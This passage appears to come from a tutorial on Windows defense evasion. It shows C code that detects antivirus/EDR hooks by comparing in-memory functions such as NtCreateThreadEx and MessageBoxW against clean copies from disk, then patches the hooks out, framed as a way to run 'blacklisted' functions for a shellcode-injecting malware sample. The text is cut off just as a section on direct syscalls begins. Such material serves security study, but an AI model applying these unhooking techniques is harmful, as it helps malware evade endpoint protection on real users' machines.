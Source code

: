 ```c
for (int i = 0; i < pExportDirectory->NumberOfNames; ++i)
{
	PCSTR pFunctionName = (PSTR)((PBYTE)pDllFileMappingBase + pAddressOfNames[i]);
	if (!strcmp(pFunctionName, "NtCreateThreadEx"))
	{
		pNtCreateThreadExOriginal = (PVOID)((PBYTE)pDllFileMappingBase + pAddressOfFunctions[pAddressOfNameOrdinals[i]]);
		break;
	}
}

// compare functions
PVOID pNtCreateThreadEx = GetProcAddress(GetModuleHandleW(L"ntdll.dll"), "NtCreateThreadEx");
if (memcmp(pNtCreateThreadEx, pNtCreateThreadExOriginal, 16)) return false;
```

Ok, now let's simulate the case when `MessageBoxW` is hooked in a way that  it immediately returns (with `C3` opcode - `RET` function). We want to detect the hook and patch the function with original assembly code from the dll located on the disk. This is useful when we want to execute some "blacklisted" functions (or a function with specific parameters that are forbiddensa).

```c
// function hooking - usually done by AV/EDR/Sandbox
// this assumes that user32.dll is loaded into the process' address space
PVOID pMessageBoxW = GetProcAddress(GetModuleHandleW(L"user32.dll"), "MessageBoxW");
DWORD oldProtect;
VirtualProtect(pMessageBoxW, 1, PAGE_EXECUTE_READWRITE, &oldProtect);
char hook[] = { 0xC3 }; // ret
memcpy(pMessageBoxW, hook, 1);
VirtualProtect(pMessageBoxW, 1, oldProtect, &oldProtect);

MessageBoxW(NULL, L"Hooked", L"Hooked", 0); // won't show up

// detect and fix the hook
PVOID pMessageBoxWOriginal = LoadDllFromDiskAndFindFunctionCode(); // see the previous code snippet
PVOID pMessageBoxWHooked = GetProcAddress(GetModuleHandleW(L"user32.dll"), "MessageBoxW");
if (memcmp(pMessageBoxWHooked, pMessageBoxWOriginal, 16))
{
	DWORD oldProtection, tempProtection;
	VirtualProtect(pMessageBoxW, 16, PAGE_EXECUTE_READWRITE, &oldProtection);
	memcpy(pMessageBoxWHooked, pMessageBoxWOriginal, 16);
	VirtualProtect(pMessageBoxW, 16, oldProtection, &tempProtection);
}
MessageBoxW(NULL, L"Fixed", L"Fixed", 0);
```

#### Direct syscalls

Another thing we can do to bypass user-mode API hooks is to invoke direct system calls. Let's first analyze our simple malware with Process Monitor.

Recap: the executable injects shellcode and creates new thread to run it: 
